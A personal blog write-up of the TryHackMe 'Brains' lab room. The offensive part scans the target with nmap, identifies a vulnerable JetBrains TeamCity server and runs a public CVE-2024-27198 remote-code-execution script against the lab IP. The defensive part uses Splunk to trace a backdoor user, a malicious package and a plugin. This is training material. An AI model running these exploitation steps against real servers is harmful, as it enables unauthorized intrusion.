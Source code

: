 ```yaml
---
title: THM — Brains walkthrough (easy)
date: 2024-10-08 12:34:27 -500
categories: [article]
tags: [tryhackme,write-up,ctf,easy]
---
```


> Walkthrough of room Brains from TryHackMe :
> https://tryhackme.com/r/room/brains

![Image logo](https://miro.medium.com/v2/resize:fit:640/format:webp/1*6nIb44thdlmlI4xeiXfXig.png "Room screenshot")

This room has two parts, the first one is offensive and the second one is defensive.

---

## Part one 🥷— Exploit the server!

There only one mission here, find the flag!

> What is the content of flag.txt in the user’s home folder?

I start by checking if the target is reachable.

![ping test](https://miro.medium.com/v2/resize:fit:720/format:webp/1*daZkj3P1REKt6ayGRHRiUw.png "ping test")

Everything seems okay, let’s exploit then!

### Reconnaissance

![recon by arnold](https://miro.medium.com/v2/resize:fit:640/format:webp/0*hVWUAlIpF3m7rIu5.gif "recon by arnold")

We gonna start by *reconnaissance* to be aware of all (almost) possibilities. It’s more interesting to know what you’re getting into.

```zsh
nmap 10.10.125.92  
  
Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-12 22:02 BST  
Nmap scan report for ip-10-10-125-92.eu-west-1.compute.internal (10.10.125.92)  
Host is up (0.0038s latency).  
Not shown: 997 closed ports  
PORT STATE SERVICE  
22/tcp open ssh  
80/tcp open http  
50000/tcp open ibm-db2  
MAC Address: 02:9D:92:C4:AB:2B (Unknown)  
  
Nmap done: 1 IP address (1 host up) scanned in 1.67 seconds
```

There are three possible options:

- SSH: May be a brute-force or anonymous login (the least likely)
- HTTP: May be a WebApp hosted locally (Enumeration with gobuster)
- ibm-db2 on **50000/tcpd**

### HTTP port

![picture of the website "under maintenance"](https://miro.medium.com/v2/resize:fit:720/format:webp/1*XvL-V9YMDG24FEdyY0s02w.png "under maintenance")

The site is _under maintenance_ and Gobuster showed nothing.

![a man crying](https://miro.medium.com/v2/resize:fit:640/format:webp/1*gpP4cfml0n8rYgx3Uhbn5g.gif "i am crying")

But let’s move on the **_port 50000_**.

### ibm-db2 port

![login page to TeamCity webapp](https://miro.medium.com/v2/resize:fit:640/format:webp/1*3d_ry35GB1FW_qfbqEWLKw.png "login page of TeamCity")

- Port 50000 is used for the ibm-db2 service
- Database service
- Login page at: `http://10.10.125.92:50000/login.html`

![That's our target](https://miro.medium.com/v2/resize:fit:640/format:webp/1*fRWHPZl9rgUm3nYmW6GhUw.gif "Target founded")

- Login page uses Jetbrain TeamCity `version 2023.11.03`

After Googling (Jetbrain TeamCity version 2023.11.03 CVE) a bit we found:

> TeamCity is a continuous integration server developed by JetBrains. (from jetbrains.com)

- Jetbrain TeamCity version _vulnerable_ to **CVE-2024–27198**
- Possible **Remote Code Execution** ([https://github.com/W01fh4cker/CVE-2024-27198-RCE.git](https://github.com/W01fh4cker/CVE-2024-27198-RCE.git%60))

![bingo](https://miro.medium.com/v2/resize:fit:440/format:webp/1*eI-JQ5cJwVTCYnZ3DY7_Mw.gif "bingo")

Enough of reconnaissance, let’s try this RCE.

### RCE exploit

![Github repo of the RCE script](https://miro.medium.com/v2/resize:fit:696/1*kq_J76kVztxMcrGESL2jIw.png)

**Installation**

```bash
git clone https://github.com/W01fh4cker/CVE-2024-27198-RCE.git  
  
cd CVE-2024-27198-RCE  
  
pip install requests urllib3 faker  
  
# I got troubles executing the python script  
# ModuleNotFoundError raised (faker not found)  
# The solution for me (do it only if the script raise the same error):  
  
sudo apt install faker
```

Now everything seems good. Time to execution

```bash
python CVE-2024-27198-RCE.py -t http://10.10.125.92:50000
```

The result:

![TeamCity RCE script execution](https://miro.medium.com/v2/resize:fit:700/1*L89gRT7r3JZeK98qXopRlg.png)

The box is over, we’re in 🥷

![Neo inside the matrix](https://miro.medium.com/v2/resize:fit:220/1*sGrk_cgQUg4uRa4uL1qlfg.gif "I'm in")

First flag done ✅

![1st flag](https://miro.medium.com/v2/resize:fit:700/1*pvvCOATvbZBB33Uw0w_3uQ.png "1st flag")

---
## Part two 🕵️‍♂️— Let’s investigate

![Duffy investigating](https://miro.medium.com/v2/resize:fit:220/1*aUMpEFOwKFmwd5StXfgNJA.gif "time to investigation")


Let’s visit _http://IP_TARGET:8000_ to get connected with ***Splunk***.

> What is the name of the backdoor user which was created on the server after exploitation?

Go to “**Search & Reporting > Data Summary > Sourcetypes”**

Go to “**Search & Reporting > Data Summary > Sourcetypes”**

![](https://miro.medium.com/v2/resize:fit:558/1*1Hp9yrLiI1paEyXoVIIT_Q.png)

![](https://miro.medium.com/v2/resize:fit:1071/1*4oLFZbB9w-6HwUGlAIN9MA.png)

Then choose **_auth_logs_** because **user creation** is probably related to **authentication** than the other sources here.

![](https://miro.medium.com/v2/resize:fit:700/1*wrYmw2IgFr4v1CA0lTx6Ww.png)

Change the observation windows from “**Last 24 hours”** to “**Before (today)”**and apply.

![](https://miro.medium.com/v2/resize:fit:700/1*1Q4_glyNlV4clZhNAGplJg.png)

At the bottom left of the website, click to get more fields.

![](https://miro.medium.com/v2/resize:fit:439/1*wZDwItrzRbZ1-g8bYsjClg.png)

Expand the “**name”** field and the flag the malicious one. Click on the malicious name and you will get the logs related. Save the date of these logs 07/04/2024 (mm-dd-yyyy).

![2nd flag](https://miro.medium.com/v2/resize:fit:700/1*mOxjyJtbEvNbBsiNBZ2aKQ.png "2nd flag")


What is the name of the malicious-looking package installed on the server?

Now we have to go back to **Data summary** and choose **_packages_**.

![](https://miro.medium.com/v2/resize:fit:700/1*WD_ERZsySZVmNC0wU5KkLQ.png)

Let’s change the observation windows from **“Last 24 hours”** to **“Since 7/4/24”**, apply, click on the key word “**_installed”_**, then **Add to search**.  
It will only show the installation logs. Still huge, reduce the observation window and move closer to 7/4/24 until there are fewer than 5 logs.

![](https://miro.medium.com/v2/resize:fit:700/1*1iviYRCbpKX06vV2Sf19AQ.png)

The third flag is here.

![3rd flag](https://miro.medium.com/v2/resize:fit:700/1*dTRPCRiAxpNxoX_GUm9hRA.png "3rd flag")


> What is the name of the plugin installed on the server after successful exploitation?

Now we have to go back to **Data summary** and choose **_Sources/teamcity-activities.log_**.

![](https://miro.medium.com/v2/resize:fit:700/1*HjQTWX-PXUxCfMrJzova0w.png)

Filter with “**_plugin”_** and here is the **last flag**.

![4th flag](https://miro.medium.com/v2/resize:fit:700/1*aUx1glaDyYhxpBWqwA3J0A.png)


All flags down, mission passed.

![](https://media1.tenor.com/m/lQBJJmatxPYAAAAd/mission-accomplished-penguins.gif)

Be proud of what you’ve accomplished.

See you soon!

> “Security used to be an inconvenience sometimes, but now it’s a necessity all the time.” — Martina Navratilova

## Comments
<script src="https://giscus.app/client.js"
        data-repo="Deomorphisme/Deomorphisme.github.io"
        data-repo-id="R_kgDONEIr-Q"
        data-category="General"
        data-category-id="DIC_kwDONEIr-c4CjomU"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="top"
        data-theme="preferred_color_scheme"
        data-lang="fr"
        data-loading="lazy"
        crossorigin="anonymous"
        async>
</script>